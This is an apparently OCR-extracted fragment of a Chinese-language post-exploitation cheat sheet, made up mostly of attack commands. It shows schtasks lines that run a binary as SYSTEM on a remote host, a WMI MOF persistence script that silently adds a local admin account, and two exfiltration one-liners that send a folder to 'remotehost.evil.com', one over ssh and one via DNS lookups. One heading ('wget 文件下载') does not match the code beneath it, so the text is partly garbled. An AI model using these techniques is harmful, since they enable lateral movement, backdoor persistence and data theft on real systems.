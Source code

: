 ```
命令原型：
schtasks /create /tn TaskName /tr TaskRun /sc schedule \[/mo modifier\] \[/d day\] \[/m month\[,month...\] \[/i IdleTime\] \[/st StartTime\] \[/sd StartDate\] \[/ed EndDate\] \[/s computer \[/u \[domain\\\]user /p password\]\] \[/ru {\[Domain\\\]User | "System"} \[/rp Password\]\] /?

For example:
schtasks /create /tn foobar /tr c:\\windows\\temp\\foobar.exe /sc once /st 00:00 /S host /RU System
schtasks /run /tn foobar /S host
schtasks /F /delete /tn foobar /S host
```

4、wget 文件下载

```
#pragma namespace("\\\\\\\\.\\\\root\\\\subscription")

instance of \_\_EventFilter as $EventFilter
{
    EventNamespace = "Root\\\\Cimv2";
    Name  = "filtP2";
    Query = "Select \* From \_\_InstanceModificationEvent "
            "Where TargetInstance Isa \\"Win32\_LocalTime\\" "
            "And TargetInstance.Second = 5";
    QueryLanguage = "WQL";
};
instance of ActiveScriptEventConsumer as $Consumer
{
    Name = "consPCSV2";
    ScriptingEngine = "JScript";
    ScriptText =
    "var WSH = new ActiveXObject(\\"WScript.Shell\\")\\nWSH.run(\\"net.exe user admin adminaz1 /add\\")";
};
instance of \_\_FilterToConsumerBinding
{
    Consumer   = $Consumer;
    Filter = $EventFilter;
};
```

5、一边 tar 一边 ssh 上传

```
tar zcf - /some/localfolder | ssh remotehost.evil.com "cd /some/path/name;tar zxpf -"
```

```
6、利用dns传输数据
```

```
tar zcf - localfolder | xxd -p -c 16 |  while read line; do host $line.domain.com remotehost.evil.com; done
```
